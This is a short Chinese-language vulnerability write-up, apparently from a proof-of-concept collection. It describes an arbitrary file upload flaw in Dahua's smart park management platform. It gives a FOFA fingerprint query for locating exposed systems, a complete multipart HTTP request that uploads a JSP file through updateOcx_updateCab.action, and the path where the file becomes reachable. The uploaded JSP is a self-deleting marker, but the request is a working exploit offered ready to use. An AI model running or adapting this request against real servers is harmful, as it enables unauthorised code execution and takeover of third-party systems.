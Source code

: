 # 大华智慧园区系统updateOcx_updateCab.action存在任意文件上传漏洞

大华智慧园区系统updateOcx_updateCab.action存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
app="dahua-智慧园区综合管理平台"
```

## poc

```java
POST /portal/updateOcx_updateCab.action HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Content-Length: 429
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=9b1d729ed9954863bcbedbb523cec7fa

--9b1d729ed9954863bcbedbb523cec7fa
Content-Disposition: form-data; name="updateBean.loadCabFileName"

sAuyJk.jsp
--9b1d729ed9954863bcbedbb523cec7fa
Content-Disposition: form-data; name="updateBean.loadCab"; filename="sAuyJk.jsp"
Content-Type: text/plain

<% out.println(75471+90776+"tnMXedOsifiHeptP");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
--9b1d729ed9954863bcbedbb523cec7fa--
```

文件地址  20240801102132 文件上传时间戳

`http://xx.xx.xx.xx/portal/ocx/20240801102132/sAuyJk.jsp`